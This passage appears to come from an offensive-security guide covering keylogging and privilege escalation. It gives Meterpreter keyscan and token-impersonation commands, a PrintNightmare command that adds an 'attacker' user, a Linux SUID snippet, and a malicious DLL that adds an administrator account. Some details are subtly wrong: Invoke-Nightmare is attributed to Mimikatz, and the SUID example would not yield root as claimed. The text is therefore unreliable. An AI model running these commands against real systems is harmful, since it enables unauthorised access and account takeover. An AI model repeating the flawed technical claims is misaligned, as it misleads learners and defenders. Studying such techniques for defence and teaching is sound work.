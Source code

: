 #### **Keylogging**

A keylogger records keystrokes to steal credentials. Attackers may develop custom malware that implements keylogging functionality or use tools like **Metasploit** for post-exploitation keylogging:

```
meterpreter > keyscan_start
```

### **Privilege Escalation Techniques**

#### **Token Impersonation**

Token impersonation remains an effective privilege escalation technique, especially when leveraging stolen tokens of high-privileged accounts. Tools like **Incognito** (part of **Meterpreter**) allow attackers to impersonate tokens of other users:

```
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "NT AUTHORITY\SYSTEM"
```

This allows an attacker to impersonate SYSTEM or other privileged accounts undetected.

#### **CVE Exploitation** (PrintNightmare)

Exploiting known vulnerabilities, such as **PrintNightmare** (CVE-2021-34527), is still a common method. Attackers can gain SYSTEM-level access by exploiting the Windows Print Spooler service. Tools like **Mimikatz** automate this process:

```
Invoke-Nightmare -NewUser "attacker" -NewPassword "P@ssword123" -AddUserToLocalGroup
```

This adds a new user with elevated privileges.

#### **Sudo and SUID Abuse** (Linux)

Attackers abuse **SUID** binaries or misconfigured **sudo** privileges to escalate privileges. For instance, if a binary with the SUID bit set is writable, it can be replaced with a malicious one:

```
echo '#!/bin/bash\n/bin/bash' > /tmp/suidbash
chmod +x /tmp/suidbash
/tmp/suidbash
```

This provides root access if the binary runs with root permissions.

#### **DLL Search Order Hijacking**

In Windows environments, attackers abuse DLL search order to load malicious DLLs by placing them in locations that are loaded by legitimate applications. The attacker creates a malicious DLL in a directory where a program searches for the legitimate one:

```
// Example malicious DLL code
#include <windows.h>
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    system("net localgroup administrators attacker /add");
    return TRUE;
}
```
